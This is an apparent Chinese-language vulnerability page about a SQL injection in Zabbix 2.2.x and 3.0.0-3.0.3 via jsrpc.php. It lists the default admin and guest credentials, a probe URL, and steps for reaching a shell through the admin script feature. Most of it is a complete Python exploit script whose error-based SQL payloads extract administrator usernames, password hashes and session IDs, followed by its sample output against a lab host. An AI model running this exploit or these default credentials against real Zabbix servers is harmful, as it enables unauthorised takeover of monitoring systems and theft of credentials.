


###漏洞详情 ###
Zabbix 是由 Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。可用于监视各种网络服务、服务器和网络机器等状态。本着其开源、安装简单等特点被广泛使用， zabbix安装完成后，超级管理员账号默认为：

        用户名：Admin   密码：zabbix。
二、Guest用户
  zabbix系统安装完成后，默认会有一个guest账号：

        用户名：guest   密码为空  ，只能看到zabbix后台，没有具体内容
但zabbix 2.2.x, 3.0.0-3.0.3版本存在SQL注入漏洞，攻击者无需授权登陆即可登陆zabbix管理系统，进入后台后script等功能直接获取zabbix服务器的操作系统权限

### 漏洞利用 ###
1.访问的zabbix的地址后面加上如下url：

    /jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&tim
    estamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=hi
    story.php&profileIdx=web.item.graph&profileIdx2=2'3297&updateProfil
    e=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=
    17&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&
    mark_color=1

输出结果，若包含：You have an error in your SQL syntax;表示漏洞存在。

2.首先在Administration页面的scrpit功能栏创建script如下：

3.然后重点在于找触发点，找到触发点才能执行。方法很多，这里拿常用的举例。

4.执行成功后即可getshell。

### EXP ###

    #!/usr/bin/env python
    # -*- coding: utf-8 -*-
    # Date: 2016/8/18
    # Modified by: Jamin Zhang
    
    import urllib2
    import sys, os
    import re
    
    def deteck_Sql():
    u'检查是否存在 SQL 注入'
    payload = "jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=999'&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&mark_color=1"
    try:
    response = urllib2.urlopen(url + payload, timeout=10).read()
    except Exception, msg:
    print msg
    else:
    key_reg = re.compile(r"INSERT\s*INTO\s*profiles")
    if key_reg.findall(response):
    return True
    
    
    def sql_Inject(sql):
    u'获取特定sql语句内容'
    payload = url + "jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=" + urllib2.quote(
    sql) + "&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17&itemids[23297]=23297&action=showlatest&filter=&filter_task=&mark_color=1"
    try:
    response = urllib2.urlopen(payload, timeout=10).read()
    except Exception, msg:
    print msg
    else:
    result_reg = re.compile(r"Duplicate\s*entry\s*'~(.+?)~1")
    results = result_reg.findall(response)
    if results:
    return results[0]
    
    
    if __name__ == '__main__':
    # os.system(['clear', 'cls'][os.name == 'nt'])
    print '+' + '-' * 60 + '+'
    print u'\t   Python Zabbix < 3.0.4 SQL 注入 Exploit'
    print '\tOrigin Author: http://www.waitalone.cn/'
    print '\t\t   Modified by: Jamin Zhang'
    print '\t\t   Date: 2016-08-18'
    print '+' + '-' * 60 + '+'
    if len(sys.argv) != 2:
    print u'用法: ' + os.path.basename(sys.argv[0]) + u' [Zabbix Server Web 后台 URL]'
    print u'实例: ' + os.path.basename(sys.argv[0]) + ' http://jaminzhang.github.io'
    sys.exit()
    url = sys.argv[1]
    if url[-1] != '/': url += '/'
    passwd_sql = "(select 1 from(select count(*),concat((select (select (select concat(0x7e,(select concat(name,0x3a,passwd) from  users limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)"
    session_sql = "(select 1 from(select count(*),concat((select (select (select concat(0x7e,(select sessionid from sessions limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)"
    if deteck_Sql():
    print u'Zabbix 存在 SQL 注入漏洞！\n'
    print u'管理员  用户名密码：%s' % sql_Inject(passwd_sql)
    print u'管理员  Session_id：%s' % sql_Inject(session_sql)
    else:
    print u'Zabbix 不存在 SQL 注入漏洞！\n'
    

以下为执行上述 Exp 脚本输出结果：

    C:\Users\xxx\Desktop>python zabbix_exp.py
    +------------------------------------------------------------+
       Python Zabbix < 3.0.4 SQL 注入 Exploit
       Origin Author: http://www.waitalone.cn/
       Modified by: Jamin Zhang
       Date: 2016-08-18
    +------------------------------------------------------------+
    用法: zabbix_exp.py [Zabbix Server Web 后台 URL]
    实例: zabbix_exp.py http://jaminzhang.github.io
    
    C:\Users\xxx\Desktop>python zabbix_exp.py http://192.168.56.11/zabbix
    +------------------------------------------------------------+
       Python Zabbix < 3.0.4 SQL 注入 Exploit
       Origin Author: http://www.waitalone.cn/
       Modified by: Jamin Zhang
       Date: 2016-08-18
    +------------------------------------------------------------+
    Zabbix 存在 SQL 注入漏洞！
    
    管理员  用户名密码：Zabbix:5fce1b3e34b520afeffb37ce08c7cd66
    管理员  Session_id：16c9fe855b00a92112ae55cad58792c6

### 参考链接 ###
https://xz.aliyun.com/t/6874
https://jaminzhang.github.io/security/Zabbix-latest-SQL-Injection-Vulnerability-and-EXP/